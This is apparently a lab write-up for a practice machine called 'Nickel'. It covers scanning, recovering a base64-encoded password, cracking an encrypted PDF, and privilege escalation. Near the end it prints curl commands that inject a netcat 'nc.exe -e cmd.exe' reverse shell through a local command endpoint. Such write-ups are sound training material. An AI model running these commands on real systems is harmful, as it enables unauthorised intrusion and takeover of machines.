 # Nickel

Starting off with an nmap scan

![](<../../.gitbook/assets/image (3) (1).png>)

Going to port 80

![](<../../.gitbook/assets/image (4) (1).png>)



Intercepting the commands using burp suite we can identify what's going on

We could use burp to send a post request too but I made use of curl

![](<../../.gitbook/assets/image (7) (1).png>)



Seems like it was base 64 encoded and can use the password to get initial foothold

![](<../../.gitbook/assets/image (16) (1).png>)

### Priv Esc

Going to the ftp directory

![](<../../.gitbook/assets/image (9) (1).png>)

I transferred the file to my attacker machine using

`scp ariah@192.168.79.99:C:/ftp/Infrastructure.pdf .`

``

`The file was encrypted`

![Cracked the password using pdfcrack](<../../.gitbook/assets/image (6) (1).png>)

``

Taking a look at the pdf

![
](<../../.gitbook/assets/image (5) (1).png>)

An internal service seems to be running as authority

![](<../../.gitbook/assets/image (14) (1).png>)



We can make use of nc.exe by running it as a root user and get a shell as Administrator



So i ran

C:\Users\ariah\Desktop>curl [http://nickel/?cmd](http://nickel/?cmd) /c C:\Users\ariah\Desktop\nc.exe 127.0.0.1 4444 -e cmd.exe\


With url encoding

curl [http://nickel/?cmd%20%2Fc%20C%3A%5CUsers%5Cariah%5CDesktop%5Cnc.exe%20127.0.0.1%204444%20-e%20cmd.exe](http://nickel/?cmd%20%2Fc%20C%3A%5CUsers%5Cariah%5CDesktop%5Cnc.exe%20127.0.0.1%204444%20-e%20cmd.exe)

![](<../../.gitbook/assets/image (17) (1).png>)

![](<../../.gitbook/assets/image (15) (1).png>)
